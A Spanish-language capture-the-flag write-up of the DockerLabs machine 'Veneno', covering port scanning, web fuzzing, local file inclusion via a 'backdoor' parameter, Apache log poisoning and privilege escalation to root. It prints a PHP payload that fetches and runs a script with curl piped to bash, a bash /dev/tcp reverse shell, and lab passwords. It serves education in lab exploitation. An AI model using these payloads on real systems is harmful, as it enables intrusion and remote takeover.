# Veneno — DockerLabs Writeup


---

## Información General

| Máquina | Dificultad | Plataforma |
|---|---|---|
| Veneno | Media | DockerLabs |

---

## Técnicas Utilizadas

- Enumeración con Nmap
- Feroxbuster
- FFUF
- Local File Inclusion (LFI)
- Log Poisoning
- Reverse Shell
- Enumeración Linux
- Escalada de privilegios

---

> ⚠️ Disclaimer:
> Este laboratorio fue realizado en un entorno controlado con fines educativos y de aprendizaje en ciberseguridad ofensiva.

---

# Reconocimiento Inicial

La fase de reconocimiento comenzó con un escaneo completo de puertos utilizando **Nmap**.

Se empleó un escaneo SYN (`-sS`) sobre todos los puertos TCP (`-p-`), evitando resolución DNS (`-n`) y deshabilitando el descubrimiento ICMP (`-Pn`) para tratar el host como activo desde el inicio.

El objetivo fue identificar servicios expuestos y posibles vectores de entrada.

```bash
nmap -p- -sS -n -Pn --open 172.17.0.2 -oN ports.txt
```

## Explicación de parámetros utilizados

| Parámetro | Descripción |
|---|---|
| `-p-` | Escaneo de los 65535 puertos TCP |
| `-sS` | Escaneo SYN sigiloso |
| `-n` | Evita resolución DNS |
| `-Pn` | Omite descubrimiento de host |
| `--open` | Muestra únicamente puertos abiertos |
| `-oN` | Guarda resultados en formato normal |

---

### 📸 Escaneo inicial de puertos



---

## Resultados del Escaneo

Se identificaron dos puertos abiertos:

```text
22/tcp open  ssh
80/tcp open  http
```

| Puerto | Servicio | Descripción |
|---|---|---|
| 22 | SSH | Acceso remoto |
| 80 | HTTP | Aplicación web |

La presencia del servicio HTTP en el puerto 80 indicó un posible vector principal de explotación.

---

# Enumeración de Servicios

Una vez identificados los puertos abiertos, se realizó una enumeración avanzada utilizando detección de versiones y scripts por defecto de Nmap.

```bash
nmap -sVC -p 22,80 172.17.0.2 -oN services.txt
```

## Resultados obtenidos

```text
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 3ubuntu13
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
```

Durante esta fase se identificó:

- Servicio SSH ejecutándose sobre OpenSSH 7.6p1
- Servidor Apache 2.4.58 en Ubuntu
- Página por defecto de Apache activa

---

### 📸 Enumeración de servicios



---

# Enumeración Web

Tras identificar el servicio HTTP expuesto en el puerto 80, se procedió a realizar una enumeración de contenido utilizando **Feroxbuster**.

```bash
feroxbuster -u http://172.17.0.2 \
-x php,txt,bak,old,zip,tar,gz,conf,inc \
-d 4 \
-k \
-C 404
```

---

### 📸 Enumeración web con Feroxbuster



---

## Recursos encontrados

| Código | Recurso | Descripción |
|---|---|---|
| 200 | `/` | Página principal |
| 200 | `/problems.php` | Archivo PHP interesante |
| 301 | `/uploads` | Directorio de subida |
| 200 | `/icons/ubuntu-logo.png` | Recurso estático |

---

# Descubrimiento de Parámetros Ocultos

Durante el análisis de `problems.php`, se observó un comportamiento inusual.

Se decidió realizar fuzzing de parámetros utilizando **FFUF**.

```bash
ffuf -u "http://172.17.0.2/problems.php?FUZZ=id" \
-w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
-mc 200 \
-fs 10671
```

---

### 📸 Descubrimiento del parámetro `backdoor`



---

## Hallazgo del parámetro

El fuzzing permitió identificar el parámetro:

```text
backdoor
```

---

# Confirmación de LFI

Tras descubrir el parámetro `backdoor`, se realizaron pruebas para verificar una posible vulnerabilidad Local File Inclusion (LFI).

```bash
curl -s "http://172.17.0.2/problems.php?backdoor=/etc/passwd"
```

---

### 📸 Confirmación de LFI



---

## Resultado obtenido

La aplicación devolvió correctamente el contenido del archivo `/etc/passwd`.

Usuarios identificados:

```text
root
ubuntu
carlos
```

La vulnerabilidad permitía:
- lectura arbitraria de archivos,
- acceso a información sensible,
- enumeración del sistema.

---

# Explotación mediante Log Poisoning

Tras confirmar la vulnerabilidad LFI, se evaluó la posibilidad de escalar el impacto hacia una Remote Code Execution (RCE).

---

## Acceso a los logs de Apache

Se comprobó que el servidor permitía acceder al archivo:

```text
/var/log/apache2/access.log
```

---

### 📸 Acceso al `access.log`



---

## Inyección de código PHP

Payload utilizado:

```php
<?php system('curl 172.17.0.1:9090/shell | bash'); ?>
```

Petición enviada:

```bash
curl -i 172.17.0.2 -A "<?php system('curl 172.17.0.1:9090/shell | bash'); ?>"
```

---

### 📸 Inyección del payload



---

# Preparación de Reverse Shell

Contenido del archivo `shell`:

```bash
bash -i >& /dev/tcp/172.17.0.1/443 0>&1
```

Servidor HTTP temporal:

```bash
python3 -m http.server 9090
```

Listener con Netcat:

```bash
sudo nc -nlvp 443
```

---

### 📸 Preparación del listener


---

# Obtención de Reverse Shell

Finalmente se forzó la inclusión del log comprometido:

```text
http://172.17.0.2/problems.php?backdoor=/var/log/apache2/access.log
```

---

### 📸 Reverse shell obtenida




---

## Validación de acceso

```bash
whoami
```

Resultado:

```text
www-data
```

---

# Enumeración Local

Una vez obtenida la shell como `www-data`, se inició la enumeración local.

```bash
ls
```

Archivo interesante encontrado:

```text
antiguo_y_fuerte.txt
```

---

### 📸 Archivo con pista



---

## Contenido del archivo

```bash
cat antiguo_y_fuerte.txt
```

```text
Es imposible que me acuerde de la pass es inhackeable pero se que la tenpo en el mismo fichero desde fa 24 anys. trobala buscala

soy el unico user del sistema.
```

---

# Búsqueda de Archivos Sensibles

```bash
find / -iname "*.txt" 2>/dev/null
```

Resultado:

```text
/usr/share/viejuno/inhackeable_pass.txt
```

Contenido:

```text
pinguinochocolatero
```

---

### 📸 Descubrimiento de credencial



---

# Acceso al Usuario `carlos`

```bash
su carlos
```

Verificación:

```bash
whoami
```

Resultado:

```text
carlos
```

---

### 📸 Acceso al usuario `carlos`



---

# Enumeración del Home de Carlos

```bash
find /home/carlos -type f 2>/dev/null
```

Resultado:

```text
/home/carlos/carpeta55/.toor.jpg
```

---

### 📸 Archivo `.toor.jpg`



---

# Extracción de Credencial desde Metadatos

```bash
grep -a "http" /home/carlos/carpeta55/.toor.jpg
```

Resultado:

```text
AsposeImaging:ImageQuality>pingui1730</AsposeImaging
```

---

### 📸 Credencial encontrada en metadatos



---

# Escalada de Privilegios a Root

```bash
su root
```

Contraseña utilizada:

```text
pingui1730
```

Verificación:

```bash
whoami
```

Resultado:

```text
root
```

---

### 📸 Root obtenido



---

# Resumen de la Cadena de Explotación

1. Enumeración de servicios con Nmap.
2. Descubrimiento de recursos web mediante Feroxbuster.
3. Identificación del parámetro oculto `backdoor`.
4. Confirmación de vulnerabilidad LFI.
5. Explotación mediante Log Poisoning.
6. Obtención de reverse shell como `www-data`.
7. Enumeración local y descubrimiento de credenciales.
8. Acceso al usuario `carlos`.
9. Extracción de credenciales desde metadatos.
10. Escalada final a `root`.

---

# Impacto

La combinación de múltiples debilidades permitió comprometer completamente el sistema:

- Local File Inclusion (LFI)
- Exposición de logs
- Remote Code Execution (RCE)
- Almacenamiento inseguro de credenciales
- Escalada horizontal
- Escalada vertical de privilegios

---

# Conclusión

La máquina presentó una cadena de explotación basada en:
- vulnerabilidades web,
- malas prácticas de configuración,
- y exposición de información sensible.

La explotación demostró cómo una vulnerabilidad aparentemente limitada como un LFI puede evolucionar hasta un compromiso completo del sistema.

---

## Autor

- Medium: https://medium.com/@D4nYeD
- LinkedIn: https://www.linkedin.com/in/d4nyed/
